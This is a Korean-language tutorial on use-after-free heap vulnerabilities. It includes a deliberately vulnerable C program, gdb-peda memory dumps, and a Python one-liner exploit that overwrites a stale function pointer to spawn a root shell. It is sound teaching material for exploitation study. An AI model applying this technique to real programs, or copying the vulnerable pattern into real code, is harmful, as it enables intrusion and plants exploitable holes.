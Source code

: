 ## **Concept**

Heap 영역에 할당을 할때 Free 해준 공간을 다시 재사용하여 발생하는 취약점이다. 만약 함수포인터가 동적할당이 되어있을 경우 실행흐름도 조작 가능하다.  

공격자가 Heap 영역을 할당하거나 해제할 수 있어야하고 해제된 영역의 크기와 같거나 작은 영역을 할당해야 한다.

## **Proof of Concept**

```c
// gcc uaf.c -o uaf
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
typedef struct {
    char name[32];
    void (*print)(void*);
} test;
 
typedef struct {
    char name[128];
} string;
 
void printName(test *t) {
    printf("%s\n", t->name);
}
 
void shell() {
    printf("This is shell!! You know UAF vuln!\n");
    system("/bin/sh");
}
 
int main() {
    test* t1;
    string *s1;
    t1 = malloc(256);
    
    strcpy(t1->name, "I LOVE CHAEYOUNG");
    t1->print = (void*)printName;
    
    t1->print(t1);
    
    free(t1);
    
    s1 = malloc(256);
    
    scanf("%128s", s1->name);
    t1->print(t1);
    return 0;
}
```

malloc() 함수로 Heap을 재할당 하는 부분에서 Breakpoint를 걸고 확인해보면 t1에서 사용했던 함수 포인터(printName)를 확인할 수 있다. t1->name은 fk, bk로 채워진 것을 확인할 수 있다.

```
[-------------------------------------code-------------------------------------]
   0x4006ee <main+82>:	call   0x400500 <free@plt>
   0x4006f3 <main+87>:	mov    edi,0x100
   0x4006f8 <main+92>:	call   0x400540 <malloc@plt>
=> 0x4006fd <main+97>:	mov    QWORD PTR [rbp-0x8],rax
   0x400701 <main+101>:	mov    rax,QWORD PTR [rbp-0x8]
   0x400705 <main+105>:	mov    rsi,rax
   0x400708 <main+108>:	mov    edi,0x4007e3
   0x40070d <main+113>:	mov    eax,0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004006fd in main ()
gdb-peda$ info r rax
rax            0x602010	0x602010
gdb-peda$ x/12gx 0x602010
0x602010:	0x00007ffff7dd1b78               0x00007ffff7dd1b78
0x602020:	0x0000000000000000               0x0000000000000000
0x602030:	0x0000000000400666 <- printName  0x0000000000000000

gdb-peda$ x/3i 0x0000000000400666
   0x400666 <printName>:	push   rbp
   0x400667 <printName+1>:	mov    rbp,rsp
   0x40066a <printName+4>:	sub    rsp,0x10
```

따라서 32 byte를 입력 후 함수 포인터에 &shell()를 입력하면 t1->print(t1)을 호출하므로 shell()을 호출이 가능하다.

```
gdb-peda$ x/12gx 0x602010
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4242424242424242 	0x0000000000000000

gdb-peda$ p shell
$1 = {<text variable, no debug info>} 0x400681 <shell>
```

## **Exploit**
```
root@bs-virtual-machine:~/pwnable/uaf# (python -c 'print "A"*32 + "\x81\x06\x40"';cat) | ./uaf
UAF TEST!!!
This is shell!! You know UAF vuln!

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root/pwnable/uaf
```

**References**  
<https://www.lazenca.net/pages/viewpage.action?pageId=1148139>  
<https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/>  
<https://shotgh.tistory.com/62>  